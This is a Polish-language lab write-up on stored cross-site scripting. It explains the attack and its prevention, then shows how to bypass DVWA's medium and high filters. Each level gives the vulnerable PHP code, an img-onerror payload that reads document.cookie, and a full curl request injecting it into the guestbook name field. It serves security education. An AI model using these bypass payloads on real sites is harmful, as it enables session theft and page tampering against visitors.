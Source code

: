 # Stored XSS
## Opis techniki
<blockquote>
Stored Cross-Site Scripting (XSS) to podatność, w której atakujący wstrzykuje złośliwy skrypt do strony internetowej, który następnie jest przechowywany na serwerze. Ten przechowywany skrypt jest serwowany użytkownikom, którzy odwiedzają zainfekowaną stronę, powodując wykonanie skryptu przez ich przeglądarki.

Oto kilka kluczowych cech i zagrożeń związanych ze Stored XSS:
* Brak odpowiedniej walidacji danych wejściowych i wyjściowych: Stored XSS występuje, gdy złośliwy skrypt jest trwale zapisany na serwerze, na przykład w bazie danych, i następnie serwowany użytkownikom. Jeśli aplikacja nie waliduje ani nie filtruje odpowiednio danych wejściowych i wyjściowych, atakujący może zainfekować serwer złośliwym skryptem.
* Trwałość ataku: W przeciwieństwie do Reflected XSS, złośliwe skrypty w Stored XSS są trwale przechowywane na serwerze. To oznacza, że atak może trwać przez dłuższy czas, nawet jeśli atakujący nie podejmuje dalszych działań, dopóki podatność nie zostanie wykryta i naprawiona.
* Zagrożenie dla szerokiej grupy użytkowników: Ze względu na trwałość ataku, Stored XSS może wpływać na dużą liczbę użytkowników. Każda osoba, która odwiedza stronę z przechowywanym złośliwym skryptem, może zostać zaatakowana. To czyni Stored XSS szczególnie niebezpiecznym dla witryn z dużym ruchem.
* Zagrożenie dla danych użytkownika i sesji: Stored XSS może prowadzić do kradzieży wrażliwych danych, takich jak ciasteczka sesji, co pozwala atakującemu przejąć sesję użytkownika. Ponadto, może być wykorzystane do przechwycenia interakcji użytkownika, wprowadzenia do systemu złośliwych skryptów, czy nawet pełnej manipulacji zawartością strony internetowej.
</blockquote>

## Zapobieganie
<blockquote>
Podobnie jak w przypadku reflected XSS, ważne jest prawidłowe kodowanie danych wyjściowych, a także sprawdzanie i czyszczenie wszelkich danych wejściowych. Przechowywane XSS może również wymagać bardziej rygorystycznych kontroli nad tym, co użytkownicy mogą przechowywać na serwerze.
</blockquote>

## DVWA labs
- [DVWA Stored XSS #2 - Medium](#dvwa-XSS-Stored-1---medium)

- [DVWA Stored XSS #3 - High](#dvwa-XSS-Stored-2---high)

<br/>

## DVWA Stored XSS #1 - Medium
Na średnim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Filtrowanie parametru "mtxMessage" i "txtName"
* Filtrowanie polega na użyciu metody strip_tags() oraz htmlspecialchars()
* W przypadku parametru "txtName" nie użyto htmlspecialchars()

#### Kod źródłowy strony `PHP`
```php
<?php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}
?> 
```

#### Payload
Podatny endpoint: `http://10.10.236.56/vulnerabilities/xss_s/`<br/>
URL: `http://10.10.236.56/vulnerabilities/xss_s/<img+src+onerror=alert(document.cookie)>&mtxMessage=baw_medium&btnSign=Sign+Guestbook`

#### Komenda curl - [Wzór zapytania]
```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.236.56' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 103' -H $'Origin: http://10.10.236.56' -H $'Connection: close' -H $'Referer: http://10.10.236.56/vulnerabilities/xss_s/' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=o8bg59jl012q96i1sjk4p9ieo0; security=medium' --data-binary $'txtName=%3Cimg+src+onerror%3Dalert%28document.cookie%29%3E&mtxMessage=baw_medium&btnSign=Sign+Guestbook' $'http://10.10.236.56/vulnerabilities/xss_s/'
```

#### Efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/XSS_Stored_med.png "Po wykonaniu odpowiedniego zapytania następuje zamieszczenie komentarza ze złośliwym kodem w nazwie komentującego.")

Do obejścia zabezpieczenia użyto tagu "<img>" i wykorzystano brak wszystkich filtrów w przypadku parametru txtName. Po wykonaniu odpowiedniego zapytania na stronie ukazuje się szkodliwy komentarz, dzięki któremu przeglądarka użytkowników wchodzących na podatną stronę wykona zamieszczony w "Name" komentarza kod.

<br/>
<br/>

## DVWA Stored XSS #2 - High
Na trudnym poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Filtrowanie parametru "mtxMessage" z użyciem strip_tags() oraz htmlspecialchars()
* Filtrowanie parametru "txtName", aby usunąć możliwość użycia tagu "script"

#### Kod źródłowy strony `PHP`
```php
<?php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}
?> 
```

#### Payload
Podatny endpoint: `http://10.10.236.56/vulnerabilities/xss_s/`<br/>
URL: `http://10.10.236.56/vulnerabilities/xss_s/<img+src+onerror=alert(document.cookie)>&mtxMessage=baw_high&btnSign=Sign+Guestbook`

#### Komenda curl - [Wzór zapytania]

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.236.56' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 101' -H $'Origin: http://10.10.236.56' -H $'Connection: close' -H $'Referer: http://10.10.236.56/vulnerabilities/xss_s/' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=o8bg59jl012q96i1sjk4p9ieo0; security=high' --data-binary $'txtName=%3Cimg+src+onerror%3Dalert%28document.cookie%29%3E&mtxMessage=baw_high&btnSign=Sign+Guestbook'  $'http://10.10.236.56/vulnerabilities/xss_s/'

```

#### Efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/XSS_Stored_hard.png "Po wykonaniu odpowiedniego zapytania następuje zamieszczenie komentarza ze złośliwym kodem w nazwie komentującego.")

<br/>

Do obejścia zabezpieczenia użyto tagu `<img>`. Po wykonaniu odpowiedniego zapytania na stronie ukazuje się szkodliwy komentarz, dzięki któremu przeglądarka użytkowników wchodzących na podatną stronę wykona zamieszczony w "Name" komentarza kod.
